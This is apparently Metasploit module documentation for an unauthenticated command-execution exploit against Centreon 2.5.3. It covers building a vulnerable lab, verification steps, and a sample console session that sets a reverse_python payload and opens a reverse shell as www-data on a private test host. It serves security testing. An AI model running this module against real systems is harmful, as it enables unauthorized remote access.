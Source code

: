## Vulnerable Application

1. [Exploit-db](https://www.exploit-db.com/apps/bf269a17dd99215e6dc5d7755b521c21-centreon-2.5.3.tar.gz)
2. Archived Copy: [github](https://github.com/h00die/MSF-Testing-Scripts)

### Creating A Testing Environment

Creating a testing environment for this application contained many steps, so I figured I would document the process here.

  1. Create a fresh install of Ubuntu 16.04.  I used a LAMP install.
  2. Install php5.6 [askubuntu](http://askubuntu.com/questions/756181/installing-php-5-6-on-xenial-16-04)
  3. Enable php5.6 in Apache with ```a2enmod```, disable php7.0 with ```a2dismod```
  4. Restart apache with ```apache2ctl restart```
  5. Install [Nagios Plugins](https://assets.nagios.com/downloads/nagioscore/docs/nagioscore/3/en/quickstart-ubuntu.html) starting at step 6.  The plugins link is broken, utilize [nagios-plugins-2.1.1.tar.gz](http://www.nagios-plugins.org/download/nagios-plugins-2.1.1.tar.gz) instead
  6. Install [Centreon Engine](https://documentation.centreon.com/docs/centreon-engine/en/latest/installation/index.html)
  7. Install [Centreon Broker](https://documentation.centreon.com/docs/centreon-broker/en/2.11/installation/index.html#using-packages)
  8. Install [Centreon clib](https://documentation.centreon.com/docs/centreon-clib/en/latest/installation/index.html)
  9. Now install [Centreon Web](https://documentation.centreon.com/docs/centreon/en/2.5.x/installation/from_sources.html)

## Verification Steps

  1. Install the application
  2. Start msfconsole
  3. Do: `use exploit/linux/http/centreon_useralias_exec`
  4. Do: `set payload`
  5. Do: `set rhost`
  6. Do: `check`
  7. Do: ```run```
  8. You should get a shell.

## Scenarios

Just a standard run.

    msf > use exploit/linux/http/centreon_useralias_exec
    msf exploit(centreon_useralias_exec) > set payload cmd/unix/reverse_python
    payload => cmd/unix/reverse_python
    msf exploit(centreon_useralias_exec) > set lhost 192.168.2.229
    lhost => 192.168.2.229
    msf exploit(centreon_useralias_exec) > set rhost 192.168.2.85
    rhost => 192.168.2.85
    msf exploit(centreon_useralias_exec) > set verbose true
    verbose => true
    msf exploit(centreon_useralias_exec) > check
    [+] Version Detected: 2.5.3
    [*] 192.168.2.85:80 The target appears to be vulnerable.
    msf exploit(centreon_useralias_exec) > exploit
    [*] Started reverse TCP handler on 192.168.2.229:4444 
    [*] Sending malicious login
    [*] Command shell session 1 opened (192.168.2.229:4444 -> 192.168.2.85:36792) at 2016-06-11 20:44:57 -0400
    whoami
    www-data
    uname -a
    Linux centreon 4.4.0-21-generic #37-Ubuntu SMP Mon Apr 18 18:33:37 UTC 2016 x86_64 x86_64 x86_64 GNU/Linux
  
